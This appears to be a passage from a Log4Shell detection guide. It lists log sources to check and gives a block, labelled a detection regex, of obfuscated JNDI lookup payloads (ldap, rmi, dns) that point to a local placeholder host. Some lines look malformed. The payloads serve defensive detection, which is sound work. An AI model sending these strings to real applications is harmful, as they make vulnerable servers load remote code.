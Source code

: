 **Logs:**
1. Web proxy (inbound)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
2. Firewall (inbound)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
3. Load balancer (inbound)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
4. IDS/IPS (across the network)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
5. Application logs (Log4J) (inbound)    - See [here](#behavior-of-injected-jndi-strings-in-vulnerable-log4j-instances) for more information about the log-writing behavior of vulnerable Log4J instances.
6. Machine logs (Sysmon/security logs)
   - Some exploitation attempts have been observed where Log4J crashes while attempting to execute a malicious LDAP payload. Machine/System logs might provide stack traces of these failures.
7. Process monitoring

**Conclusion:**
1. The targeted application has downloaded the
   malicious payload. Execution of the payload can be
   identified through host-based process monitoring and
   forensic analysis.

## Detection 
### Overall JNDI detection regex

```plain
{env:NOTHING:-j}\u0024{lower:N}\\u0024{lower:${upper:d}}}i:dns:/127.0.0.1:1389}
${${::-j}nd${upper:ı}:rm${upper:ı}://127.0.0.1:1389}
${${base64:JHtqbmRpOmxkYXA6YWRkcn0=}}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//127.0.0.1:1389}
${jndi:${lower:l}${lower:d}a${lower:p}://$127.0.0.1:1389}
${jndi:${lower:l}${lower:d}a${lower:p}://127.0.0.1:1389
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://127.0.0.1/Binary}
${jndi:dns://127.0.0.1:1389}
${jndi:rmi://127.0.0.1:1389}
${jndi:dns:${jndi:pwd}${jndi:pwd}127.0.0.1:1389}
${jndi:ldap://127.0.0.1:1099/obj}
${${upper:j}n${lower:d}${lower:i}:l${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}1${lower:2}${lower:7}.0${lower:.}0${lower:.}${lower:1}${lower::}10${lower:9}9${lower:/}o${lower:b}j}
${${upper:j}${lower:n}${lower:d}${lower:i}${lower::}${lower:l}${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}${lower:1}${lower:2}${lower:7}${lower:.}${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}${lower:0}${lower:9}${lower:9}${lower:/}${lower:o}${lower:b}${lower:j}}
${jndi:ld${ozI:Kgh:Qn:TXM:-a}p:${DBEau:Y:pLXUu:SfRKk:vWu:-/}${x:UMADq:-/}127${lt:tWd:iEVW:pD:tGCr:-.}${jFpSDW:z:SN:AuqM:C:-0}${dxxilc:HTFa:QLgii:pv:-.}0.${a:l:urnrtk:-1}:1099${zlSEqQ:T:qg:o:-/}ob${E:yJDsbq:-j}}
${${eh:wDUdos:jKY:-j}${xksV:Xgi:-n}${hNdb:SbmXU:goWgvJ:iqAV:Ux:-d}${MXWN:oOi:c:UxXzcI:-i}${DYKgs:tHlY:-:}${d:FHdMm:fw:-l}${Gw:-d}${LebGxe:c:SxLXa:-a}${echyWc:BE:NBO:s:gVbT:-p}${l:QwCL:gzOQm:gqsDS:-:}${qMztLn:e:E:WS:-/}${NUu:S:afVNbT:kyjbiE:-/}${PtGUfI:WcYh:c:-1}${YoSJ:KUV:uySK:crNTm:-2}${EwkY:EsX:S:wk:-7}${HUWOJ:MMIxOn:S:-.}${MHF:s:-0}${obrJVU:RPw:d:A:-.}${E:RgY:j:-0}${MaOtbM:-.}${O:-1}${zzfuGD:YEyvy:mhp:T:-:}${vlaw:WuOBz:-1}${HAjxt:ziBgmc:-0}${UKVBrk:sNAKe:F:qXNetQ:mdIuOW:-9}${geJs:sgYgQW:oOd:qOGf:aYpAkP:-9}${UonINv:-/}${aTygHK:pbQiTB:KkXhKS:-o}${FMRAKM:-b}${wiu:vKIVuh:-j}}
```
